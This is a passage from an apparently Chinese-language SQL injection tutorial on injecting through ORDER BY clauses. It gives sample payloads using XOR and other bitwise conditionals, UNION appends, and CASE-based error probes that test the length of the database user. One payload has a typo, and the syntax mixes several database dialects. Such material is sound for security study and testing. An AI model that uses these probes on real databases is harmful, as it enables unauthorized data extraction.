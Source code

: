 ![](resource/index.assets/20241213000414-bba5dc84-b8a2-1.png)

## 0x0B order by 位置注入

### 11.1 位运算符

主要使用^亦或运算，其他也可

```sql
ORDER BY id^(if(1=2,1,2)
ORDER BY id^(if(len(user)=6,1,2))
```

```sql
SELECT * FROM t1 where rownum&lt;5 ORDER BY id^(if(1=2,1,2)) DESC;
SELECT * FROM t1 where rownum&lt;5 ORDER BY id^(if(len(user)=6,1,2)) DESC;
SELECT * FROM t1 where rownum&lt;5 ORDER BY id&amp;(if(len(user)=6,1,2)) DESC;
SELECT * FROM t1 where rownum&lt;5 ORDER BY id|(if(len(user)=6,1,2)) DESC;
```

### 11.2 union

利用条件比较苛刻，需要整条语句在括号中，且前后字段数量一致

```
(SELECT * FROM t1 where rownum&lt;5 ORDER BY id) union (select 1,2,user);
(SELECT * FROM t1 where rownum&lt;5 ORDER BY id,null) union (select 1,2,user);
```

### 11.3 转化成Where

将其转化为 where 后的注入点

```sql
SELECT * FROM xxxx WHERE is_delete != &#39;1&#39; ORDER BY id limit 0,20
 
SELECT * FROM xxxx WHERE is_delete != &#39;1&#39; ORDER BY (select 1 from dual where 1=1/(case when len(user)=6 then 1 else 0 end)) LIMIT 0,20
```

## 0x0C limit 注入
